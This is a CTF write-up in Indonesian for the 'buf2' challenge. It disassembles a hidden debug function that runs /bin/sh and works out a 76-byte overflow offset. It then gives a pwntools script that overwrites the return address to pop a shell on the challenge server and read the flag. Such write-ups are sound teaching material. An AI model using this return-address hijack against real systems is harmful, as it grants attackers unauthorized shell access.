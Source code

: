 ```py
0x080484a0  __do_global_dtors_aux
0x080484c0  frame_dummy
0x080484eb  init
0x0804851c  debug
0x08048545  hah
0x0804855d  main
0x08048590  __libc_csu_init
0x080485f0  __libc_csu_fini
0x080485f4  _fini
gdb-peda$ 
```

Didalam fungsi ini, kita akan mendapatkan shell, berikut hasil disassemble-nya.

```py
gdb-peda$ pdisas debug
Dump of assembler code for function debug:
   0x0804851c <+0>:	push   ebp
   0x0804851d <+1>:	mov    ebp,esp
   0x0804851f <+3>:	sub    esp,0x8
   0x08048522 <+6>:	sub    esp,0xc
   0x08048525 <+9>:	push   0x8048610
   0x0804852a <+14>:	call   0x80483a0 <puts@plt>
   0x0804852f <+19>:	add    esp,0x10
   0x08048532 <+22>:	sub    esp,0xc
   0x08048535 <+25>:	push   0x804861b
   0x0804853a <+30>:	call   0x80483b0 <system@plt>
   0x0804853f <+35>:	add    esp,0x10
   0x08048542 <+38>:	nop
   0x08048543 <+39>:	leave  
   0x08048544 <+40>:	ret    
End of assembler dump.
gdb-peda$ x/s 0x804861b
0x804861b:	"/bin/sh"
```

Inputan kita berada pada ```ebp-0x48```. Untuk sampai ke *return address*, kita harus meng-overwrite ```ebp```
- Karena soal ini merupakan file 32 bit, maka harus menambahkan 4 byte padding untuk meng-overwrite ```ebp``` sehingga sampai ke *return address*. 
- Panjang 1 register 32bit adalah 4 byte. Sedangkan dalam 64bit, 1 register memiliki panjang 8 byte.
- *Return address*, yaitu pada alamat fungsi ```debug``` yang akan mengeksekusi shell.

```python
from pwn import *

r = remote("asgama.web.id", 40202)
offset  = 72 + 4
debug   = p32(0x0804851c)
payload = "A" * offset + debug

r.send(payload)
r.interactive()
```
Jalankan dan didapatkan shell.
```sh
$ python solver.py 
[+] Opening connection to asgama.web.id on port 40202: Done
[*] Switching to interactive mode
$ 
$ ls
buf2
flag
$ cat flag
GamaCTF{C0ntR0l_Fl0w_H1J4ckiNg}
```